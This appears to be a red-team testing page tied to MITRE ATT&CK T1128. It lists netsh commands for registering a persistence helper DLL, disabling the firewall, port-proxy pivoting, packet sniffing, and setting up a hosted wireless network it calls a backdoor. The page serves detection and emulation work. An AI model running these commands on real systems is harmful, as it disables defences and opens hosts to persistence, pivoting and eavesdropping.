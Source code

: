 # Netsh Helper DLL

MITRE ATT&CK Technique: [T1128](https://attack.mitre.org/wiki/Technique/T1128)

## A DLL can be registered to be loaded each time netsh.exe is executed, or for certain events.

Netsh interacts with other operating system components using dynamic-link library (DLL) files. Each Netsh helper DLL provides an extensive set of features called a context, which is a group of commands specific to a networking component. For example, Dhcpmon.dll provides netsh the context and set of commands necessary to configure and manage DHCP servers.

## Attackers can register a netsh helper with this command

     netsh.exe add helper C:\Path\file.dll

## The following registry key stores the paths to the helpers

    HKLM\SOFTWARE\Microsoft\Netsh

## Additional Netsh.exe testing we recommend

### Firewall Control

Input:

    netsh firewall set opmode [disable|enable]

### Netsh.exe Pivoting

Input:

    netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1

Can also support v4tov6, v6tov6, and v6tov4

### Netsh.exe Sniffing

Input:

    netsh trace start capture=yes overwrite=no tracefile=<FilePath.etl>

to stop:

    netsh trace stop

### Netsh.exe Wireless backdoor

Input:

    netsh wlan set hostednetwork mode=[allow\|disallow]
    netsh wlan set hostednetwork ssid=<ssid> key=<passphrase> keyUsage=persistent\|temporary
    netsh wlan [start|stop] hostednetwork

Enables or disables hostednetwork service.
Complete hosted network setup for creating a wireless backdoor.
Starts or stops a wireless backdoor. See below to set it up.

